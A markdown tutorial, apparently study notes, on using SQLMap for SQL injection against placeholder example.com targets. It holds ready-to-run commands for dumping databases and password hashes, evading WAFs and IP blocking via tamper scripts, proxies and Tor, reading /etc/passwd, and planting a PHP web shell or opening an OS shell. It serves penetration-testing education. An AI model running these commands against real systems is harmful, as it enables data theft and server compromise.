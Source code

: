 # Basic usage of SQLMap:


`sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`

Tests if the parameter id is dynamic.


# 🔍 Common Log Messages & Their Meaning:

**"Target URL content is stable"**
Page output doesn’t change between requests — useful for detecting differences caused by SQLi payloads.

**"GET parameter 'id' appears to be dynamic"**
The id parameter changes the page response → good sign it’s linked to a database.

**"Parameter might be injectable"**
Heuristic tests suggest SQLi is possible (e.g., error message from MySQL).

**"Might be vulnerable to XSS"**
Quick check hints the parameter could be vulnerable to XSS (not SQLi-related but helpful info).

**"Back-end DBMS is 'MySQL'"**
SQLMap thinks the database is MySQL. You can skip testing other DBMS types.

**"Include all tests for 'MySQL' extending level/risk values"**
Option to run deeper tests specific to MySQL.

**"Reflective value(s) found and filtering out"**
SQLMap found the payload echoed back in the response — it filters it to avoid false positives.

**"Parameter appears to be injectable"**
SQLMap found a likely injection point using a specific technique (e.g., boolean-based).

**"--string='luther'"**
SQLMap used a known string in the response to detect true vs false conditions.

**"Time-based comparison requires a larger statistical model"**
SQLMap is measuring delays to detect time-based SQLi — needs more samples.

**"Extending UNION query tests"**
Since one technique worked, SQLMap increases test range for UNION injection.

**"'ORDER BY' technique appears to be usable"**
SQLMap uses this to quickly find the correct number of columns.

**"GET parameter 'id' is vulnerable"**
Confirmed SQL injection vulnerability. SQLMap asks if you want to keep testing other parameters.

**"Identified the following injection point(s)"**
Final list of all injection types and payloads that worked — proof of SQLi.

**"Fetched data logged to text files..."**
Output is saved locally in a folder for the target site. You can reuse this for future scans."GET parameter 'id' is vulnerable"


# Running SQLMap on HTTP Requests

**GET and POST Requests**

For GET requests, use `-u` or just include the URL:

`sqlmap 'http://www.example.com/?id=1'`

For POST requests, use `--data`:

`sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`

You can test specific parameters by adding `-p`:

`sqlmap ... -p uid`

Or mark them with `*`:

`sqlmap ... --data 'uid=1*&name=test'`

**If the request is complex, copy the entire HTTP request (from Burp Suite or browser dev tools) into a text file, then run:**

`sqlmap -r req.txt`

You can use * in the file to mark where SQLMap should inject, like:

`GET /?id=* HTTP/1.1`


You can add headers or cookies manually:

Using `--cookie`:

`sqlmap ... --cookie='PHPSESSID=abc123'`

Use `--random-agent` to avoid detection by firewalls:

`sqlmap ... --random-agent`

For methods like PUT, use `--method`:

`sqlmap -u target.com --data='id=1' --method PUT`

For JSON or XML data, use `--data` for simple bodies:

`sqlmap -u target.com --data='{"id":1}'`

For complex JSON/XML, use `-r req.txt` with the full request inside the file.

# Tuning in SQLMap


**🔹 Tuning UNION SQLi**

For UNION-based attacks, if SQLMap struggles, help it out:

- `--union-cols=5 → Number of columns in SELECT`
- `--union-char='a' → Filler character (instead of NULL)`
- `--union-from=users → Append a FROM clause to the payload`

**🔹 Payload Structure**

Every SQL injection payload has:

- Vector – the actual SQL code, e.g. UNION SELECT 1,2,version()
- Boundaries – the prefix/suffix used to wrap the vector, e.g. 1')) <vector> -- -

You can manually set them with:

`sqlmap -u "http://example.com/?q=test" --prefix="%'))" --suffix="-- -"`

Useful when the target’s SQL query uses special formatting.

**🔹 Level and Risk**

SQLMap has built-in payloads and boundaries. To expand or narrow them:

- `--level=1-5 → Higher = more payloads (default: 1)`
- `--risk=1-3 → Higher = riskier but more effective tests (default: 1)`

Example:

`sqlmap -u "http://example.com/?id=1" --level=5 --risk=3 -v 3`

Higher values test more types of injections but take longer and may be more dangerous (e.g. modifying data).

**🔹 Forcing Specific SQLi Techniques**

You can limit which SQLi types SQLMap should try:

`--technique=BEU`  # Boolean, Error, Union

Available values:

- B = Boolean-based
- E = Error-based
- U = UNION-based
- T = Time-based
- S = Stacked queries

**🔹 Advanced Tuning Options**

✅ HTTP Response-Based Detection:

SQLMap uses differences in responses to detect injections. You can help it by specifying:

`--code=200` → Focus on responses with HTTP 200
`--string="success"` → Look for this string in true responses
`--titles` → Compare page <title> tags
`--text-only` → Ignore HTML tags and compare visible text only

# Database Enumeration

**Basic Enumeration Example:**

`sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba`

`--is-dba` -  whether the current database user has administrative privileges

**📂 Getting Tables from a Database**

`sqlmap -u "http://www.example.com/?id=1" --tables -D testdb`

**📤 Dumping Table Content**

`sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb`

**🎯 Filter Specific Columns**

`sqlmap -u "..." --dump -T users -D testdb -C name,surname`

🧠 Useful for big tables—just pull relevant columns.

**🔢 Filter Specific Rows**

`sqlmap -u "..." --dump -T users -D testdb --start=2 --stop=3`

📌 Dumps only 2nd and 3rd rows.

**🔍 Conditional Row Filtering**

`sqlmap -u "..." --dump -T users -D testdb --where="name LIKE 'f%'"`

**🧾 Full Dump**

Dump everything from one DB:

`sqlmap -u "..." --dump -D testdb`

Dump from all DBs (excluding system DBs):

`sqlmap -u "..." --dump-all --exclude-sysdbs`


# 🧠 Advanced Database Enumeration

**🔧 1. View Database Schema (Structure)**

To list all tables and their columns, use:

`sqlmap -u "http://example.com/?id=1" --schema`

**🔍 2. Search for Tables or Columns by Keyword**

🔎 Find tables with "user" in the name:

`sqlmap -u "http://example.com/?id=1" --search -T user`

🔎 Find columns with "pass" in the name:

`sqlmap -u "http://example.com/?id=1" --search -C pass`

**🗂 3. Dump Tables with Passwords**

Once you find a table with passwords, you can dump it:

`sqlmap -u "http://example.com/?id=1" --dump -D master -T users`

If SQLMap detects hashed passwords, it will ask:

"Do you want to crack them?"

✅ You can:

- Use the default dictionary
- Choose your own
- Add suffixes (slow)


**🔐 4. Dump DBMS User Passwords (e.g. root)**

To pull internal DB user accounts and password hashes, run:

`sqlmap -u "http://example.com/?id=1" --passwords --batch`

**💡 Pro Tip: Full Auto Enumeration**

`sqlmap -u "http://example.com/?id=1" --all --batch`

# Bypassing Web Application Protections with SQLMap

**1. CSRF Token Bypass**

Some web apps include CSRF tokens in requests to stop automation. These tokens change with each session or page load.

Use `--csrf-token=token_name` so SQLMap can automatically grab and reuse fresh tokens from responses.

If you forget to specify it, SQLMap may detect tokens (like those with names including csrf, token, or xsrf) and ask to handle them for you.

Example:

`sqlmap -u "http://example.com" --data="id=1&csrf-token=abc123" --csrf-token="csrf-token"`

**2. Unique Value Bypass**

Some apps require a unique value in each request (like a random number). Use `--randomize=param_name` to randomize that parameter every time.

Example:

`sqlmap -u "http://example.com/?id=1&rp=12345" --randomize=rp`

**3. Calculated Parameter Bypass**

Some parameters are derived from others (e.g., a hash of another value). Use `--eval` to run Python code before each request.

Example (hashing id):

`sqlmap -u "http://example.com/?id=1&h=md5hash" --eval="import hashlib; h=hashlib.md5(id).hexdigest()"`

**4. Hiding Your IP**

To avoid IP-based blocking:

- Use a proxy: `--proxy="socks4://IP:PORT"`
- Use multiple proxies from a file: `--proxy-file=proxies.txt`
- Use Tor: `--tor` (make sure Tor is running locally)
- Verify Tor is working: `--check-tor`

**5. WAF Detection and Bypass**
   
SQLMap can detect Web Application Firewalls (WAFs) and try to bypass them:

Skip WAF detection to reduce noise: `--skip-waf`

Use tamper scripts to modify requests and avoid WAF filters.

**6. Changing User-Agent**

Some sites block tools like SQLMap based on the user-agent string. Use `--random-agent` to use a browser-like user-agent.

**7. Tamper Scripts**

These Python scripts change parts of the SQL payload to bypass filters and WAFs.

Example tamper scripts:

`between`: replaces = with BETWEEN and > with NOT BETWEEN
`randomcase`: changes the case of SQL keywords
`space2comment`: replaces spaces with comments (/**/)

Use multiple like this:

`--tamper=between,randomcase`

List all available tamper scripts with:

`--list-tampers`

**8. Miscellaneous Bypasses**

Chunked encoding (`--chunked`): breaks payload into chunks to bypass keyword filters.

HTTP Parameter Pollution (`--hpp`): duplicates parameter names with split payload parts to trick the app into combining them.

Example:

`?id=1&id=UNION&id=SELECT&id=username,id=FROM&id=users`

# 🖥️ OS Exploitation with SQLMap

**🔍 1. Check for DBA Privileges**

Before attempting OS-level actions, check if the current DB user has admin (DBA) privileges:

`sqlmap -u "http://example.com/?id=1" --is-dba`

- True: You have high privileges → can attempt file read/write or command execution.
- False: Your options may be limited.

**📖 2. Read Files from the Server**

If you have enough privileges, you can read local files on the server:

`sqlmap -u "http://example.com/?id=1" --file-read="/etc/passwd"`

The file will be saved locally by SQLMap.

You can then view it using cat.

**✍️ 3. Write Files to the Server**

If the DB allows it, you can upload a file, like a PHP web shell:

Step 1: Create a shell

`echo '<?php system($_GET["cmd"]); ?>' > shell.php`

Step 2: Upload it

`sqlmap -u "http://example.com/?id=1" --file-write="shell.php" --file-dest="/var/www/html/shell.php"`
  
Step 3: Use it

`curl http://example.com/shell.php?cmd=ls`

⚠️ Writing is often disabled by default. You’ll need DBA rights and a writable directory.

**🖥️ 4. Get an Interactive OS Shell**

Instead of manually uploading a shell, let SQLMap do the heavy lifting:

`sqlmap -u "http://example.com/?id=1" --os-shell`

SQLMap will try different techniques (e.g., uploading UDFs or web shells).

You’ll get a basic command shell (like os-shell>) to run system commands.

If no output:

Try a different technique like error-based SQLi:

`sqlmap -u "http://example.com/?id=1" --os-shell --technique=E`
